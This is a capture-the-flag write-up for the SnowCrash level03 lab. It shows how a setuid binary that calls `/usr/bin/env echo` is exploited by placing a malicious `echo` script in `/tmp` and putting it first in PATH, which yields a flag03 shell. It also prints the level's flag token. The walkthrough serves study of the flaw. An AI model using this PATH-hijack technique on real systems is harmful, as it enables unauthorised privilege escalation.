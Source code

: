 echo1. **File search**

    ```bash
    level03@SnowCrash:~$ ll
    total 24
    dr-x------ 1 level03 level03  120 Mar  5  2016 ./
    d--x--x--x 1 root    users    340 Aug 30  2015 ../
    -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout*
    -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc*
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
    -r-x------ 1 level03 level03  675 Apr  3  2012 .profile*
    ``` 
    We can see that the file level03* has SUID permissions, which means that when executed, it runs with the privileges of the file owner (flag03), regardless of which user runs it.

    To exploit a file with SUID permissions, like level03*, you usually look for vulnerabilities in the binary, such as command injections, buffer overflows, or unsafe system calls.

2. **Looking for vulnerabilities**

    ```bash
    strings level03
    [...]
    /usr/bin/env echo Exploit me
    [...]
    ```  

    This line stands out when using `strings`.

    ```bash
    level03@SnowCrash:~$ /usr/bin/env echo Exploit me
    Exploit me
    ```   

    The command `/usr/bin/env echo Exploit me` runs the `env` program, which searches for and executes the first executable named echo it finds in the user's `PATH`, passing Exploit me as an argument.
    In this case, it prints Exploit me to the screen using the echo command.

    The key is that env allows you to control which executable is used (in this case, echo), which can be useful for exploiting the binary if you can manipulate the `PATH` and make it execute a malicious echo you created.

3. **Exploitation**

    Create a script called `echo`:

    ```bash
    echo '/bin/sh' > /tmp/echo
    chmod +x /tmp/echo
    ```  

    Modify the PATH so that `/tmp` is at the beginning:
    ```bash
    export PATH=/tmp:$PATH
    ```  

    Run the `level03` binary. This will open a shell with flag03 privileges:
    ```bash
    level03@SnowCrash:~$ ./level03 
    $ whoami 
    flag03
    $ getflag
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
    $ 
    ```
